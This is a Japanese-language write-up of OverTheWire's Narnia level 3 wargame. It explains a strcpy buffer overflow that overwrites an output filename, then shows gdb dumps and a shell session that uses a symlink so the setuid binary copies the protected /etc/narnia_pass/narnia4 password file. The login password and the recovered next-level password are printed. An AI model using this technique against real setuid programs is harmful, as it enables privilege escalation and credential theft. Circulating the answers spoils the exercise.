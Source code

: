 ```sh
$ ssh -p 2226 narnia3@narnia.labs.overthewire.org
```

password: vaequeezee

```c
.
.
.
int  ifd,  ofd;
char ofile[16] = "/dev/null";
char ifile[32];
char buf[32];

if(argc != 2){
        printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
        exit(-1);
}

/* open files */
strcpy(ifile, argv[1]); <- here is buffer overflow???
.
.
.
```

strcpyした時に、ファイル名が32バイト以上ならばオーバーフローして、ofileを上書きする


### A が 32
```
gdb-peda$ x/10wx 0xffffbf00
0xffffbf00: 0x41414141  0x41414141  0x76656400  0x6c756e2f <- null文字(00)で/dev/nullの先頭が上書きされてしまっている
0xffffbf10: 0x0000006c  0x00000000  0x0804868b  0x00000000
0xffffbf20: 0xf7fab000  0xf7fab000
```


### A が 31
```
gdb-peda$ x/10wx 0xffffbf00
0xffffbf00:	0x41414141	0x00414141	0x7665642f	0x6c756e2f <- /dev/null
0xffffbf10:	0x0000006c	0x00000000	0x0804868b	0x00000000
0xffffbf20:	0xf7fab000	0xf7fab000
```



## In remote
```sh
narnia3@narnia:~$ cd /tmp/
narnia3@narnia:/tmp$ mkdir $(python -c 'print "A" * 27')
narnia3@narnia:/tmp$ cd AAAAAAAAAAAAAAAAAAAAAAAAAAA
narnia3@narnia:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA$ mkdir tmp
narnia3@narnia:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA$ cd tmp
narnia3@narnia:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp$ ln -s /etc/narnia_pass/narnia4 ./hoge
narnia3@narnia:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp$ ls -lh
total 0
lrwxrwxrwx 1 narnia3 narnia3 24 Jul  2 08:48 hoge -> /etc/narnia_pass/narnia4
narnia3@narnia:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp$ /narnia/narnia3 $(python -c 'print "/tmp/" + "A"*27 + "/tmp/hoge"')
copied contents of /tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/hoge to a safer place... (/tmp/hoge)
narnia3@narnia:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp$ cat /tmp/hoge
thaenohtai
�����4����_��}0,narnia3@narnia:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp$
```

/dev/nullが書き換え可能であり、このプログラムは渡されたファイルの内容を/dev/nullにコピーするもの。

よって、/dev/nullを任意のものに書き換えて、パスワードを指すファイル名を渡す。

具体的には、

/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA <- これでnull文字だけオーバーフローしている状態。

/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/hoge <- こうすると、/dev/nullが/tmp/hogeになる

さらに、/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/hogeがパスワードを指すようにしたいので、/etc/narnia_pass/narnia4へのシンボリックリンクを貼る。

こうすることで、まず/dev/nullが/tmp/hogeに書き換わり、そこに/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/hogeの内容、つまり/etc/narnia_pass/narnia_pass4の内容が/tmp/hogeに書き出される。

/etc/narnia_pass/narnia4はnarnia4しか読めないが、/narnia/narnia3にはsetuidが立っているので読むことができる
